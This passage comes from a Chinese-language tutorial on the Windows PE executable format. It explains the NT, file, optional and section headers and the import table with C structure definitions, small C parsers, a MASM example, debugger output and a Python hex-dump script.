IMAGE_NT_HEADERS由`IMAGE_NT_SIGNATURE`（标识符）和`IMAGE_FILE_HEADER`（文件头）组成。其中，`IMAGE_NT_SIGNATURE`用于标识该文件是否为有效的PE文件，`IMAGE_FILE_HEADER`则用于描述可执行文件的基本结构信息，包括机器类型、段的数量、时间戳、符号表指针、符号表数量、可选头大小以及文件的各种标志和属性等。

如上`_IMAGE_NT_HEADERS`文件头的第一个`DWORD`是一个标志，默认情况下它被定义为`00004550h`也就是`P,E`两个字符另外加上两个零，而大部分的文件属性由标志后面的`IMAGE_FILE_HEADER`和`IMAGE_OPTIONAL_HEADER32`结构来定义。

#### 2.3.1 IMAGE_FILE_HEADER

我们跟进`IMAGE_FILE_HEADER`这个结构，文件头结构体`IMAGE_FILE_HEADER`是`IMAGE_NT_HEADERS`结构体中的一个结构体，紧接在PE标识符的后面，`IMAGE_FILE_HEADER`结构体的大小为20字节，起始位置为`0x000000CC`结束位置在`0x000000DF`，这个`IMAEG_FILE_HEADER`结构体中包含了PE文件的大部分基础信息其结构的定义如下:

```C
#define _IMAGE_FILE_HEADER 20

typedef struct _IMAGE_FILE_HEADER
{
    WORD    Machine;                  // 运行平台
    WORD    NumberOfSections;         // 文件的节数目
    DWORD   TimeDateStamp;            // 文件创建日期和时间
    DWORD   PointerToSymbolTable;     // 指向符号表(用于调试)
    DWORD   NumberOfSymbols;          // 符号表中的符号数量
    WORD    SizeOfOptionalHeader;     // IMAGE_OPTIONAL_HANDLER32结构的长度
    WORD    Characteristics;          // 文件的属性 exe=010fh dll=210eh
} IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
```

#### 2.3.2 IMAGE_OPTINAL_HEADER

此外`IMAGE_NT_HEADERS`还包含了`IMAGE_OPTIONAL_HEADER`可选头的信息，用于描述PE文件的高级结构信息，包括各种代码段、数据段、栈大小、堆大小、程序入口点、镜像基址等等。

我们继续跟进`_IMAGE_NT_HEADERS`结构体里面的第二个结构`IMAGE_OPTINAL_HEADER`，该头结构非常重要要，里面存储着程序的数据目录表，可选头紧挨着文件头，文件头的结束位置在`0x000000DF`，那么可选头的起始位置为`0x000000E0`，可选头的大小在文件头中已经给出，其大小为`0x00E0`字节，其结束位置为`0x000000E0 + 0x00E0 – 1 = 0x000001BF`，可选头非常容易辨别，只需要找到PE字眼就是了。

可选头是对文件头的一个扩展，文件头主要描述文件的相关信息，而可选头主要用来管理PE文件被操作系统装载时所需要的信息，该头是有32位版本与64位版本之分的，其实`IMAGE_OPTIONAL_HEADER`是一个宏，定义如下所示；
```c
#define IMAGE_NT_OPTIONAL_HDR32_MAGIC      0x10b
#define IMAGE_NT_OPTIONAL_HDR64_MAGIC      0x20b
#define IMAGE_ROM_OPTIONAL_HDR_MAGIC       0x107

#ifdef _WIN64
typedef IMAGE_OPTIONAL_HEADER64             IMAGE_OPTIONAL_HEADER;
typedef PIMAGE_OPTIONAL_HEADER64            PIMAGE_OPTIONAL_HEADER;
#define IMAGE_NT_OPTIONAL_HDR_MAGIC         IMAGE_NT_OPTIONAL_HDR64_MAGIC
#else
typedef IMAGE_OPTIONAL_HEADER32             IMAGE_OPTIONAL_HEADER;
typedef PIMAGE_OPTIONAL_HEADER32            PIMAGE_OPTIONAL_HEADER;
#define IMAGE_NT_OPTIONAL_HDR_MAGIC         IMAGE_NT_OPTIONAL_HDR32_MAGIC
#endif
```
32位版本和64位版本的选择是根据是否定义了`_WIN64`而决定的，这里只讨论其32位的版本，`IMAGE_OPTIONAL_HEADER32`的定义如下所示；
```c
typedef struct _IMAGE_OPTIONAL_HEADER
{
    WORD    Magic;                        // 0x10b(可执行文件) 0x107(ROM文件)
    BYTE    MajorLinkerVersion;           // 主连接器版本号
    BYTE    MinorLinkerVersion;           // 次连接器版本号
    DWORD   SizeOfCode;                   // 所有包含代码节的总大小
    DWORD   SizeOfInitializedData;        // 所有已初始化数据的节总大小
    DWORD   SizeOfUninitializedData;      // 所有未初始化数据的节总大小
    DWORD   AddressOfEntryPoint;          // 程序执行入口RVA
    DWORD   BaseOfCode;                   // 代码节的起始RVA
    DWORD   BaseOfData;                   // 数据节的起始RVA
    DWORD   ImageBase;                    // 程序镜像基地址
    DWORD   SectionAlignment;             // 内存中节的对其粒度
    DWORD   FileAlignment;                // 文件中节的对其粒度
    WORD    MajorOperatingSystemVersion;  // 要求最低操作系统的主版本号
    WORD    MinorOperatingSystemVersion;  // 要求最低操作系统的次版本号
    WORD    MajorImageVersion;            // 可执行文件的主版本号
    WORD    MinorImageVersion;            // 可执行文件的次版本号
    WORD    MajorSubsystemVersion;        // 可运行于操作系统的最小子版本号
    WORD    MinorSubsystemVersion;
    DWORD   Win32VersionValue;            // 该成员变量是被保留的
    DWORD   SizeOfImage;                  // 内存中整个PE映像尺寸
    DWORD   SizeOfHeaders;                // 所有头加节表的大小
    DWORD   CheckSum;                     // 校验和值
    WORD    Subsystem;                    // 可执行文件的子系统类型
    WORD    DllCharacteristics;           // 指定DLL文件的属性,该值大部分时候为0
    DWORD   SizeOfStackReserve;           // 初始化时堆栈大小
    DWORD   SizeOfStackCommit;            // 为线程已提交的栈大小
    DWORD   SizeOfHeapReserve;            // 为线程保留的堆大小
    DWORD   SizeOfHeapCommit;             // 为线程已提交的堆大小
    DWORD   LoaderFlags;                  // 被废弃的成员值
    DWORD   NumberOfRvaAndSizes;          // 数据目录的结构数量
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;
```

从上方结构体定义中可知，最后一个结构属性`IMAGE_DATA_DIRECTORY`其又指向了数据目录列表，该表由16个相同的`IMAGE_DATA_DIRECTORY`结构组成，这16个数据目录结构定义很简单，仅仅指出了某种数据的位置和长度，该结构的定义如下；
```c
#define IMAGE_NUMBEROF_DIRECTORY_ENTRIES    16

typedef struct _IMAGE_DATA_DIRECTORY
{
    DWORD   VirtualAddress;      // 数据起始RVA
    DWORD   Size;                // 数据块的长度
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

有了上方的解析流程，读者应该能理解如何实现分析PE头了，首先读者找到`DOS`头，并从该头部找到`NT`头，当读者得到了NT头就可以根据NT头向下分别解析`FileHeader`及`OptionalHeader`中的参数，根据参数定义依次输出即可得到所有的NT头部数据，其完整代码如下所示；
```c
int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        printf("\t\t\t 十六进制 \t 十进制 \n");
        printf("NT标志:               0x%08X \t %08d \n", NtHeader->Signature, NtHeader->Signature);

        printf("运行平台:             0x%08X \t %08d \n", NtHeader->FileHeader.Machine, NtHeader->FileHeader.Machine);
        printf("区段数目：            0x%08X \t %08d \n", NtHeader->FileHeader.NumberOfSections, NtHeader->FileHeader.NumberOfSections);
        printf("时间日期标志：        0x%08X \t %08d \n", NtHeader->FileHeader.TimeDateStamp, NtHeader->FileHeader.TimeDateStamp);
        printf("特征值：              0x%08X \t %08d \n", NtHeader->FileHeader.Characteristics, NtHeader->FileHeader.Characteristics);
        printf("可选头部大小：        0x%08X \t %08d \n", NtHeader->FileHeader.SizeOfOptionalHeader, NtHeader->FileHeader.SizeOfOptionalHeader);
        printf("文件符号标志：        0x%08X \t %08d \n", NtHeader->FileHeader.NumberOfSymbols, NtHeader->FileHeader.NumberOfSymbols);
        printf("文件符号指针：        0x%08X \t %08d \n", NtHeader->FileHeader.PointerToSymbolTable, NtHeader->FileHeader.PointerToSymbolTable);

        printf("入口点：              0x%08X \t %08d \n", NtHeader->OptionalHeader.AddressOfEntryPoint, NtHeader->OptionalHeader.AddressOfEntryPoint);
        printf("镜像基址：            0x%08X \t %08d \n", NtHeader->OptionalHeader.ImageBase, NtHeader->OptionalHeader.ImageBase);
        printf("镜像大小：            0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfImage, NtHeader->OptionalHeader.SizeOfImage);
        printf("代码基址：            0x%08X \t %08d \n", NtHeader->OptionalHeader.BaseOfCode, NtHeader->OptionalHeader.BaseOfCode);
        printf("内存对齐：            0x%08X \t %08d \n", NtHeader->OptionalHeader.SectionAlignment, NtHeader->OptionalHeader.SectionAlignment);
        printf("文件对齐：            0x%08X \t %08d \n", NtHeader->OptionalHeader.FileAlignment, NtHeader->OptionalHeader.FileAlignment);
        printf("子系统：              0x%08X \t %08d \n", NtHeader->OptionalHeader.Subsystem, NtHeader->OptionalHeader.Subsystem);
        printf("首部大小：            0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfHeaders, NtHeader->OptionalHeader.SizeOfHeaders);
        printf("校验和：              0x%08X \t %08d \n", NtHeader->OptionalHeader.CheckSum, NtHeader->OptionalHeader.CheckSum);
        printf("RVA 数及大小：        0x%08X \t %08d \n", NtHeader->OptionalHeader.NumberOfRvaAndSizes, NtHeader->OptionalHeader.NumberOfRvaAndSizes);

        printf("主操作系统版本：      0x%08X \t %08d \n", NtHeader->OptionalHeader.MajorOperatingSystemVersion, NtHeader->OptionalHeader.MajorOperatingSystemVersion);
        printf("从操作系统版本：      0x%08X \t %08d \n", NtHeader->OptionalHeader.MinorOperatingSystemVersion, NtHeader->OptionalHeader.MinorOperatingSystemVersion);
        printf("主映像版本：          0x%08X \t %08d \n", NtHeader->OptionalHeader.MajorImageVersion, NtHeader->OptionalHeader.MajorImageVersion);
        printf("从映像版本：          0x%08X \t %08d \n", NtHeader->OptionalHeader.MinorImageVersion, NtHeader->OptionalHeader.MinorImageVersion);
        printf("主子系统版本：        0x%08X \t %08d \n", NtHeader->OptionalHeader.MajorSubsystemVersion, NtHeader->OptionalHeader.MajorSubsystemVersion);
        printf("从子系统版本：        0x%08X \t %08d \n", NtHeader->OptionalHeader.MinorSubsystemVersion, NtHeader->OptionalHeader.MinorSubsystemVersion);
        printf("Win32版本：           0x%08X \t %08d \n", NtHeader->OptionalHeader.Win32VersionValue, NtHeader->OptionalHeader.Win32VersionValue);
        printf("DLL标识：             0x%08X \t %08d \n", NtHeader->OptionalHeader.DllCharacteristics, NtHeader->OptionalHeader.DllCharacteristics);
        printf("SizeOfStackReserve：  0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfStackReserve, NtHeader->OptionalHeader.SizeOfStackReserve);
        printf("SizeOfStackCommit：   0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfStackCommit, NtHeader->OptionalHeader.SizeOfStackCommit);
        printf("SizeOfHeapReserve：   0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfHeapReserve, NtHeader->OptionalHeader.SizeOfHeapReserve);
        printf("SizeOfHeapCommit：    0x%08X \t %08d \n", NtHeader->OptionalHeader.SizeOfHeapCommit, NtHeader->OptionalHeader.SizeOfHeapCommit);
        printf("LoaderFlags：         0x%08X \t %08d \n", NtHeader->OptionalHeader.LoaderFlags, NtHeader->OptionalHeader.LoaderFlags);
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

当程序被运行后，则可输出NT头中针对`FileHeader`及`OptionalHeader`表中的所有内容，输出效果图如下图所示；



此外针对数据目录表的枚举，也将变得很容易实现，一般而言通过`NtHeader->OptionalHeader.NumberOfRvaAndSizes`读者可得到数据目录表的数量，当得到了数据目录表的数量后则可通过循环的方式依次输出`DataDirectory[x]`数组中每一个变量的参数信息，根据每次循环的不同则输出不同的参数；
```c
// --------------------------------------------------
// 临时将RVA转换为FOA的函数
// --------------------------------------------------
DWORD RVAtoFOA(DWORD rva)
{
    auto SectionTables = IMAGE_FIRST_SECTION(NtHeader);    // 获取区段表
    WORD Count = NtHeader->FileHeader.NumberOfSections;    // 获取区段数量

    for (int i = 0; i < Count; ++i)
    {
        // 判断是否存在于区段中
        DWORD Section_Start = SectionTables[i].VirtualAddress;
        DWORD Section_Ends = SectionTables[i].VirtualAddress + SectionTables[i].SizeOfRawData;
        if (rva >= Section_Start && rva < Section_Ends)
        {
            // 找到之后计算位置并返回值
            return rva - SectionTables[i].VirtualAddress + SectionTables[i].PointerToRawData;
        }
    }
    return -1;
}

int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        int Data_Size = NtHeader->OptionalHeader.NumberOfRvaAndSizes;
        printf("编号 \t 目录RVA \t 目录FOA \t Size长度(十进制) \t Size长度(十六进制) \t 功能描述 \n");

        for (int x = 0; x < Data_Size; x++)
        {
            printf("%03d \t 0x%08X \t 0x%08X \t %08d \t\t 0x%08X \t\t", x + 1, NtHeader->OptionalHeader.DataDirectory[x].VirtualAddress,
                RVAtoFOA(NtHeader->OptionalHeader.DataDirectory[x].VirtualAddress),
                NtHeader->OptionalHeader.DataDirectory[x].Size, NtHeader->OptionalHeader.DataDirectory[x].Size);

            switch (x)
            {
            case 0: printf("Export symbols \n"); break;
            case 1: printf("Import symbols \n"); break;
            case 2: printf("Resources \n"); break;
            case 3: printf("Exception \n"); break;
            case 4: printf("Security \n"); break;
            case 5: printf("Base relocation \n"); break;
            case 6: printf("Debug \n"); break;
            case 7: printf("Copyright string \n"); break;
            case 8: printf("Globalptr \n"); break;
            case 9: printf("Thread local storage (TLS) \n"); break;
            case 10: printf("Load configuration \n"); break;
            case 11: printf("Bound Import \n"); break;
            case 12: printf("Import Address Table \n"); break;
            case 13: printf("Delay Import \n"); break;
            case 14: printf("COM descriptor \n"); break;
            case 15: printf("NoUse \n"); break;
            default: printf("None \n"); break;
            }
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

运行上述程序，则读者可看到如下图所示的输出信息，至此针对数据目录表的枚举也就实现了；



### 2.4 节表详细解析

节表（Section Table）是Windows PE/COFF格式的可执行文件中一个非常重要的数据结构，它记录了各个代码段、数据段、资源段、重定向表等在文件中的位置和大小信息，是操作系统加载文件时根据节表来进行各个段的映射和初始化的重要依据。节表中的每个记录则被称为`IMAGE_SECTION_HEADER`，它记录了一个段的各种属性信息和在文件中的位置和大小等信息，一个文件可以由多个`IMAGE_SECTION_HEADER`构成。

在执行PE文件的时候，Windows 并不在一开始就将整个文件读入内存，PE装载器在装载的时候仅仅建立好虚拟地址和PE文件之间的映射关系，只有真正执行到某个内存页中的指令或者访问页中的数据时，这个页面才会被从磁盘提交到内存中，这种机制极大的节约了内存资源，使文件的装入速度和文件的大小没有太多的关系。



Windows 装载器在装载DOS部分PE文件头部分和节表部分时不进行任何处理，而在装载节区的时候会根据节的不同属性做不同的处理，一般需要处理以下几个方面的内容：

**节区的属性：** 节是相同属性的数据的组合，当节被装入内存的时候，同一个节对应的内存页面将被赋予相同的页属性，Windows系统对内存属性的设置是以页为单位进行的，所以节在内存中的对其单位必须至少是一个页的大小，对于X86来说这个值是4KB(1000h)，而对于X64来说这个值是8KB(2000h)，磁盘中存储的程序并不会对齐4KB，而只有被PE加载器载入内存的时候，PE装载器才会自动的补齐4KB对其的零头数据。 

**节区的偏移：** 节的起始地址在磁盘文件中是按照`IMAGE_OPTIONAL_HEADER`结构的FileAhgnment字段的值对齐的，而被加载到内存中时是按照同一结构中的SectionAlignment字段的值对齐的，两者的值可能不同，所以一个节被装入内存后相对于文件头的偏移和在磁盘文件中的偏移可能是不同的。

**节区的尺寸：** 由于磁盘映像和内存映像的对齐单位不同，磁盘中的映像在装入内存后会自动的进行长度扩展，而对于未初始化的数据段(.data?)来说，则没有必要为它在磁盘文件中预留空间，只要可执行文件装入内存后动态的为其分配空间即可，所以包含未初始化数据的节在磁盘中长度被定义为0，只有在运行后PE加载器才会动态的为他们开辟空间。

**不进行映射的节：** 有些节中包含的数据仅仅是在装入的时候用到，当文件装载完毕时，他们不会被递交到物理内存中，例如重定位节，该节的数据对于文件的执行代码来说是透明的，他只供Windows装载器使用，可执行代码根本不会访问他们，所以这些节存在于磁盘文件中，不会被映射到内存中。

一般来说，当一个PE文件被编译生成时则默认会存在`.text,.data`等基本节表，而每一个节表都是由一个`IMAGE_SECTION_HEADER`结构排列而成，每个结构都用来描述一个节，节表总被存放在紧接在PE文件头的地方，也即是从PE文件头开始偏移为`00f8h`的位置，针对每一个节中的定义可查看节表结构体的定义；
```C
typedef struct _IMAGE_SECTION_HEADER
{
    BYTE    Name[IMAGE_SIZEOF_SHORT_NAME];
    union {
            DWORD   PhysicalAddress;
            DWORD   VirtualSize;           // 节区尺寸
    } Misc;
    DWORD   VirtualAddress;                // 节区RVA
    DWORD   SizeOfRawData;                 // 在文件中对齐后的尺寸
    DWORD   PointerToRawData;              // 在文件中的偏移
    DWORD   PointerToRelocations;          // 在OBJ文件中使用
    DWORD   PointerToLinenumbers;
    WORD    NumberOfRelocations;
    WORD    NumberOfLinenumbers;
    DWORD   Characteristics;               // 节区属性字段
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
```

针对`IMAGE_SECTION_HEADER`中各个字段的详细解析：

 - Name：段名，是一个8字节的`ASCII`字符串，不足8字节用0补齐。
 - VirtualSize：虚拟大小，标识在内存中占用的大小，请勿与`PhysicalSize`（物理大小）混淆。
 - VirtualAddress：虚拟地址，标识在内存中对应段头的地址，与实际加载的位置有关。
 - SizeOfRawData：物理大小，标识在PE文件中该段的占用大小，不足以文件对齐单位则会进行填充。
 - PointerToRawData：物理地址，标识该段在文件中的偏移位置。
 - PointerToRelocations：重定向表的偏移位置。
 - PointerToLinenumbers：行号表的偏移位置。
 - NumberOfRelocations：重定向表数量。
 - NumberOfLinenumbers：行号表数量。

 - Characteristics：标识该段的各种属性信息，包括下列常用属性：
   - IMAGE_SCN_MEM_READ：可读；
   - IMAGE_SCN_MEM_WRITE：可写；
   - IMAGE_SCN_MEM_EXECUTE：可执行；
   - IMAGE_SCN_CNT_CODE：代码段；
   - IMAGE_SCN_CNT_INITIALIZED_DATA：已初始化数据段；
   - IMAGE_SCN_CNT_UNINITIALIZED_DATA：未初始化数据段；
   - IMAGE_SCN_LNK_INFO：包含附加信息。

与数据目录表的枚举方式基本一致，数据目录表的枚举也不会太难，读者只需要通过`NtHeader->FileHeader.NumberOfSections`获取到当前有多少个节，并通过循环的方式依次得到这些节中的指针，并将该指针转换为`PIMAGE_SECTION_HEADER`结构，依次循环输出即可得到；
```c
int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        printf("编号\t 节区名称\t虚拟偏移\t虚拟大小\t实际偏移\t实际大小\t节区属性\n");

        for (DWORD each = 0; each < NtHeader->FileHeader.NumberOfSections; each++, pSection++)
        {
            printf("%d\t %-9s\t 0x%.8X \t 0x%.8X \t 0x%.8X \t 0x%.8X \t 0x%.8X \n",
                each + 1, pSection->Name, pSection->VirtualAddress, pSection->Misc.VirtualSize,
                pSection->PointerToRawData, pSection->SizeOfRawData, pSection->Characteristics);
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

运行上述程序，即可输出当前程序中存在的节表信息，输出效果如下图所示；



### 2.5 导入表详细解析

导入表（Import Table）是Windows可执行文件中的一部分，它记录了程序所需调用的外部函数（或API）的名称，以及这些函数在哪些动态链接库（DLL）中可以找到。在Win32编程中我们会经常用到导入函数，导入函数就是程序调用其执行代码又不在程序中的函数，这些函数通常是系统提供给我们的API，在调用者程序中只保留一些函数信息，包括函数名机器所在DLL路径。

当程序需要调用某个函数时，它必须知道该函数的名称和所在的DLL文件名，并将DLL文件加载到进程的内存中。导入表就是告诉程序这些信息的重要数据结构。一般来说导入表的数据结构如下：

 - Import Lookup Table：通常被称为ILT，记录了程序需要调用的外部函数的名称，每个名称以0结尾。如果使用了API重命名技术，这里的名称就是修改过的名称。
 - Import Address Table：通常被称为IAT，记录了如何定位到程序需要调用的外部函数，即每个函数在DLL文件中的虚拟地址。在程序加载DLL文件时，IAT中的每一个条目都会被填充为实际函数在DLL中的地址。如果DLL中的函数地址发生变化，程序会重新填充IAT中的条目。
 - Import Directory Table：通常被称为IDT，记录了DLL文件的名称、ILT和IAT在可执行文件中的位置等信息。

导入表是Windows可执行文件中的重要组成部分，它直接决定了程序是否能够正确调用外部函数和执行需要依赖外部DLL文件的功能。在分析恶意软件或者逆向工程中，导入表也是非常重要的分析对象，常常可以通过检查IAT中的条目或IDT中的DLL名称，来发现程序中是否存在恶意行为或隐藏的功能。

#### 2.5.1 导入表原理分析

对于磁盘上的PE文件来说,它无法得知这些导入函数会被放置在那个空间中,只有当PE文件被装入内存时,Windows装载器才会将导入表中声明的动态链接库与函数一并加载到进程的地址空间,并修正指令代码中调用函数地址,最后让系统API函数与用户程序结合起来.

为了验证导入函数的导入规律,这里我们使用汇编语言调用一个简单地弹窗,这里并没有使用C语言是因为C中封装了太多无用代码,这回阻碍我们学习导入表结构,这里我所使用的汇编环境是`RadASM`,编译器是VC++10.

```asm
  .386p
  .model flat,stdcall
  option casemap:none
  
include windows.inc
include user32.inc
includelib user32.lib
include kernel32.inc
includelib kernel32.lib

.data
  szTitle byte 'MsgBox',0h
  szMsg byte 'hello lyshark',0h

.code
  main PROC
    invoke MessageBox,NULL,offset szMsg,offset szTitle,MB_OK
    invoke ExitProcess,0
  main ENDP
END main
```

在汇编中程序一旦被编译,编译器会对`invoke`指令进行分解,分解后的指令中将包含指向导入函数的地址的操作数,当PE加载后,该操作数就会被操作系统导入替换为函数的VA地址,如下我们使用调试器附加,观察这段弹窗代码,有没有发现特殊的地方?

```c
00D21000 | 6A 00              | push 0x0                            |
00D21002 | 68 0030D200        | push main.D23000                    |  
00D21007 | 68 0730D200        | push main.D23007                    |  
00D2100C | 6A 00              | push 0x0                            |
00D2100E | E8 07000000        | call <JMP.0x00D2101A>               | call MessageBox
00D21013 | 6A 00              | push 0x0                            |
00D21015 | E8 06000000        | call <JMP.0x00D21020>               | call ExitProcess
00801017 | CC                 | int3                                |
00D2101A | FF25 0820D200      | jmp dword ptr ds:[<&0x00D22008>]    | 导入函数地址
00D21020 | FF25 0020D200      | jmp dword ptr ds:[<&0x00D22000>]    | 导入函数地址
```

反汇编后,可看到对`MessageBox`和`ExitProcess`函数的调用,变成了对`<JMP.0x00D2101A>`和`<JMP.0x00D21020>`地址的调用,但是这两个地址显然是位于程序自身模块,而不是系统模块中,实际上这是由于编译器在编译时,自动在程序代码的后面添加了`jmp dword ptr ds:[<&0xxxxxx>]`类型的跳转指令,其中的[xxxxx]地址中才是真正存放导入函数地址的地址.

PE文件在被装入内存后`JMP`跳转后面的地址才会被操作系统确定并填充到指定的位置上,那么在程序没有被PE装载器加载之前`0x00D22000`地址处的内容是什么呢,我们使用上面的PE解析器对节表进行解析观察.

```c
----------------------------------------------------------------------------------------------------
编号     节区名称           虚拟偏移        虚拟大小        实际偏移        实际大小        节区属性
----------------------------------------------------------------------------------------------------
1        .text           0x00001000      0x00000026      0x00000400      0x00000200      0x60000020
2        .rdata          0x00002000      0x00000092      0x00000600      0x00000200      0x40000040
3        .data           0x00003000      0x00000015      0x00000800      0x00000200      0xC0000040
4        .rsrc           0x00004000      0x00000010      0x00000A00      0x00000200      0x40000040
5        .reloc          0x00005000      0x00000030      0x00000C00      0x00000200      0x42000040
----------------------------------------------------------------------------------------------------
```

由于该程序的OEP建议装入地址是`0x0d20000`所以`0x0d22000`地址实际上是处于RVA偏移为`2000h`的地方,我们再观察各个节的相对偏移,可发现`2000h`开始的地方位于`.rdata`节内,而这个节的实际偏移项为`600h`,也就是说`0x0d22000`地址的内容实际上对应到了PE文件中偏移`600h`处的数据.

你可以打开WinHEX十六进制查看器,或自己实现一个简单的十六文本进制转换器,对可执行文件进行十六进制转换与输出,使用Python实现代码如下.

```Python
import os,sys
import argparse

def BinaryToHex(FileName,Seek,Range):
    count = 0
    offset = 0
    with open(FileName,"rb") as fp:
        file_size = os.path.getsize(FileName)
        fp.seek(int(Seek))
        offset = int(Seek)
        if int(Seek)+int(Range) < file_size:
            print("-" * 60)
            print("0  1  2  3  4  5  6  7  8  9  10 11 12 13 14 15 | offset")
            print("-" * 60)
            for item in range(int(Range)):
                char = fp.read(1)
                count = count + 1
                if count % 16 == 0:
                    if ord(char) < 16:
                        print("0" + hex(ord(char))[2:] + " | ",end="")
                    else:
                        print(hex(ord(char))[2:] + " | ",end="")
                    print("0x%07d"%offset)
                    offset = offset + 16
                else:
                    if ord(char) < 16:
                        print("0" + hex(ord(char))[2:] + " ",end="")
                    else:
                        print(hex(ord(char))[2:] + " ",end="")
        else:
            print("[-] 输入参数超出文件最大字节数.")

if __name__ == "__main__":
    # 使用方式: main.py -e qq.exe -s 0 -c 100
    parser = argparse.ArgumentParser()
    parser.add_argument("-e","--exe",dest="exe",help="指定要打开的二进制文件")
    parser.add_argument("-s","--seek",dest="seek",help="指定文件偏移位置")
    parser.add_argument("-c","--count",dest="count",help="指定要读取的字节数")
    args = parser.parse_args()
    if args.exe and args.seek and args.count:
        BinaryToHex(args.exe,args.seek,args.count)
    else:
        parser.print_help()
```

将光标拖到`600h`处,会发现其对应的地址是`00002076h`,这个地址显然也不会是`ExitProcess`函数的调用地址,此时我们将它作为RVA相对偏移来看呢?

```c
C:\Users> python main.py -e c://pe/x86.exe -s 1536 -c 100
------------------------------------------------------------
0  1  2  3  4  5  6  7  8  9  10 11 12 13 14 15 | offset
------------------------------------------------------------
76 20 00 00 00 00 00 00 5c 20 00 00 00 00 00 00 | 0x0001536
54 20 00 00 00 00 00 00 00 00 00 00 6a 20 00 00 | 0x0001552
08 20 00 00 4c 20 00 00 00 00 00 00 00 00 00 00 | 0x0001568
84 20 00 00 00 20 00 00 00 00 00 00 00 00 00 00 | 0x0001584
00 00 00 00 00 00 00 00 00 00 00 00 76 20 00 00 | 0x0001600
00 00 00 00 5c 20 00 00 00 00 00 00 b1 01 4d 65 | 0x0001616
```

查看节表可以发现RVA地址`00002076h`也处于`.rdata`节内`(虚拟偏移+虚拟大小 > 2076h)`,我们拿`00002076h`减去节的起始地址`0x2000h`得到这个RVA相对于节首的偏移是`76h`,也就是说它对应文件为`0x600+76 = 676h`开始的地方,接下来观察可发现,这个位置的字符串正好就是`ExitProcess`对应的文件偏移中的位置.

```c
C:\Users> python main.py -e c://pe/x86.exe -s 1648 -c 100
------------------------------------------------------------
0  1  2  3  4  5  6  7  8  9  10 11 12 13 14 15 | offset
------------------------------------------------------------
2e 64 6c 6c 00 00 9b 00 45 78 69 74 50 72 6f 63 | 0x0001648
65 73 73 00 6b 65 72 6e 65 6c 33 32 2e 64 6c 6c | 0x0001664
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | 0x0001680
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | 0x0001696
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | 0x0001712
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | 0x0001728
```

最后的总结,当PE文件被装载到内存之前,Windows装载器会根据`jmp dword ptr ds:[<xxxxxx>]`里面的相对偏移RVA来得到函数名,再根据函数名在内存中找到函数地址,并且用函数的实际地址将`[xxxxx]`处的内容替换成真正的函数地址,从而完成对函数的调用解析.

#### 2.5.2 IMAGE_IMPORT_DESCRIPTOR

导入表位置和大小可以从PE文件头中`IMAGE_OPTIONAL_HEADER32`结构的`IMAGE_DATA_DIRECTORY`数据目录字段中获取,从`IMAGE_DATA_DIRECTORY`字段得到的是导入表的RVA值,如果在内存中查找导入表,那么将RVA值加上PE文件装入的基址就是实际的地址.

首先我们需要找到数据目录表,找到了数据目录结构,就能找到导入表,导入表由一系列的`IMAGE_IMPORT_DESCRIPTOR`结构组成,结构的数量取决于程序需要使用的DLL文件数量,每个结构对应一个DLL文件,在所有结构的最后,由一个内容全为0的`IMAGE_IMPORT_DESCRIPTOR`结构作为结束标志,表结构定义如下:

```C
typedef struct _IMAGE_IMPORT_DESCRIPTOR
{
    union {
        DWORD   Characteristics;
        DWORD   OriginalFirstThunk;     // 包含指向IMAGE_THUNK_DATA(输入名称表)结构的数组
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;              // 当可执行文件不与被输入的DLL进行绑定时,此字段为0 
    DWORD   ForwarderChain;             // 第一个被转向的API的索引
    DWORD   Name;                       // 指向被输入的DLL的ASCII字符串的RVA
    DWORD   FirstThunk;                 // 指向输入地址表(IAT)的RVA
} IMAGE_IMPORT_DESCRIPTOR;
```

如上表结构定义中的`OriginalFirstThunk`和`FirstThunk`字段含义是相同的,他们都指向一个包含`IMAGE_THUNK_DATA`结构的数组,数组中每个`IMAGE_THUNK_DATA`结构定义了一个导入函数的具体信息,数组的最后以一个内容全为0的`IMAGE_THUNK_DATA`结构作为结束,该结构的定义如下:

```C
typedef struct _IMAGE_THUNK_DATA32
{
    union {
        DWORD ForwarderString;      // 转发字符串的RAV
        DWORD Function;             // 被导入函数的地址
        DWORD Ordinal;              // 被导入函数的序号
        DWORD AddressOfData;        // 指向输入名称表 PIMAGE_IMPORT_BY_NAME
    } u1;
} IMAGE_THUNK_DATA32;
```

从上方的结构定义不难看出,是一个双字共用体结构,当结构的最高位为1时,表示函数是以序号的方式导入的,这时双字的低位就是函数的序号,当双字最高位为0时,表示函数以函数名方式导入,这时双字的值是一个RVA,指向一个用来定义导入函数名称的`IMAGE_IMPORT_BY_NAME`结构,此结构定义如下:

```C
typedef struct _IMAGE_IMPORT_BY_NAME
{
    WORD    Hint;          // 函数序号
    CHAR   Name[1];        // 导入函数的名称
} IMAGE_IMPORT_BY_NAME, *PIMAGE_IMPORT_BY_NAME;
```

上面的所有结构就是导入表的全部了,如果但看这些东西,懵逼那是很正常的,其实总结起来就是下图这张表.



